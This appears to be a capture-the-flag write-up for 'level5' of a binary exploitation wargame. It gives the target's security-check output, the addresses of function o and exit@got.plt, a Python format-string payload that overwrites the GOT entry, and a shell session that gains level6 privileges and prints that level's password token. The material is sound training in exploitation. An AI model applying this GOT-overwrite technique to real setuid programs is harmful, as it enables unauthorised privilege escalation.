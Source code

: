 # level5

## Header

```bash
ssh level5@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

<hr>

## Solution

0x80484a4 - addr of o
0x8049838 - exit@got.plt

(python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5

```bash
whoami
level6
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
pwd
/home/user/level5
cd ../level6
ls -la   
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## References

https://www.youtube.com/watch?v=t1LH9D5cuK4 Perfect video!